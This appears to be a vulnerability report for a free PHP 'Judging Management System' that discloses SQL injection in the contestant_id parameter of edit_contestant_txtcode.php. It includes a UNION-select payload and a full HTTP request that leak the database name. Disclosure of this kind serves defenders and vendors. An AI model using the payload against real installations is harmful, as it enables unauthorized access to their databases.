 # Judging Management System v1.0 by oretnom23 has SQL injection

BUG_Author: qingning988

vendors: https://www.sourcecodester.com/php/15910/judging-management-system-using-php-and-mysql-free-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /php-jms/edit_contestant_txtcode.php?sub_event_id=1&se_name=&contestant_id=

Vulnerability location: /php-jms/edit_contestant_txtcode.php?sub_event_id=1&se_name=&contestant_id=, contestant_id

dbname =jms_db

[+] Payload: /php-jms/edit_contestant_txtcode.php?sub_event_id=1&se_name=&contestant_id=-1%27%20union%20select%201,2,3,4,5,database(),7,8--+ // Leak place ---> contestant_id

```sql
GET /php-jms/edit_contestant_txtcode.php?sub_event_id=1&se_name=&contestant_id=-1%27%20union%20select%201,2,3,4,5,database(),7,8--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=f6bhcgo222sk31fnm99nf9tjt1
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/206373862-9cb65eeb-0f6a-4b4d-8f50-e3aa5adf864d.png)
